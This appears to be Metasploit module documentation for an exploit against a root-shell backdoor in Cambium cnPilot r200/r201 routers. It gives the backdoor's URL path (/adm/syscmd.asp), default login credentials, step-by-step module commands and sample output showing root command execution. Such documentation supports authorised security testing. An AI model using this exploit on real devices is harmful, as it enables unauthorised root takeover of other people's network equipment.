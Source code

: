 Cambium cnPilot r200/r201 device software versions 4.2.3-R4 and newer, contain an undocumented, backdoor 'root' shell. This shell is accessible via a specific url, to any authenticated user. The module uses this shell to execute arbitrary system commands as 'root'.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/cnpilot_r_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set CMD [command]```
5. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/cnpilot_r_cmd_exec
msf auxiliary(cnpilot_r_cmd_exec) > set RHOSTS 1.3.3.7
msf auxiliary(cnpilot_r_cmd_exec) > set RPORT 80
msf auxiliary(cnpilot_r_cmd_exec) > set CMD uname -a
msf auxiliary(cnpilot_r_cmd_exec) > run

[+] 1.3.3.7:80 - Cambium cnPilot confirmed...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "user":"user"
[*] 1.3.3.7:80 - Checking backdoor 'root' shell...
[+] 1.3.3.7:80 - You can access the 'root' shell at: http://1.3.3.7:80/adm/syscmd.asp
[+] 1.3.3.7:80 - Executing command - uname -a
[+] 
Linux cnPilot-R201 2.6.36 #1 Thu Feb 9 03:02:39 CST 2017 mips unknown

        
[+] File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_cmdexeclog_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


  ```
